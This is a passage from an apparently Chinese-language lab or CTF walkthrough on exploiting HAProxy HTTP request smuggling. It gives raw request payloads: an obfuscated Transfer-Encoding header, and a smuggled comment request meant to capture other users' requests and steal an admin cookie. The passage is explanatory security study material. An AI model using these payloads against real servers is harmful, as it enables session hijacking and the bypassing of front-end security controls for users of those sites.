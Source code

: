 ```
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X

```

发送给后端处理的请求：

```
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X

```

当然利用的前提是必须要在HAProxy配置中配置`http-reuse always`，并在发送请求时在`header`中配置`Connection: keep-alive`。

利用请求走私可以绕过前端服务器的安全控制、获取其他用户请求、利用反射型xss、进行缓存投毒等，具体在这里不再展开，可以参考这篇文章：

> [https://paper.seebug.org/1048/](https://paper.seebug.org/1048/)

### <a class="reference-link" name="admin%20cookie%20steal"></a>admin cookie steal

利用上面的`HAProxy HTTP request smuggling`的漏洞，如果我们在构造的恶意请求之后，其他用户也进行了请求，那我们就可以通过走私一个恶意请求，将其他用户的请求的信息拼接到走私请求之后，并存储到网站中，我们再查看这些数据，就能获取用户的请求中的隐私信息了。

[![](https://p1.ssl.qhimg.com/t01d2a73c34df54a654.png)](https://p1.ssl.qhimg.com/t01d2a73c34df54a654.png)

我们在`repeater`中构造一下请求

```
POST /comment HTTP/1.1
Host: 10.129.71.3:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://10.129.71.3:5000
Connection: keep-alive
Referer: http://10.129.71.3:5000/home
Cookie: lang=en-US; i_like_gitea=ec51054dc539d89a; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YO2r8w.8rq5TXqG7LkEYJV3cqVwOBTIh7o; _csrf=cQKWFLPhRfTeyypUg38t8RbxoUY6MTYyNjE4ODM1OTEzNDc4OTczMw
Upgrade-Insecure-Requests: 1
Transfer-Encoding: Cwo=chunked

5
msg=test
0

POST /comment HTTP/1.1
Host: 10.129.71.3:5000
```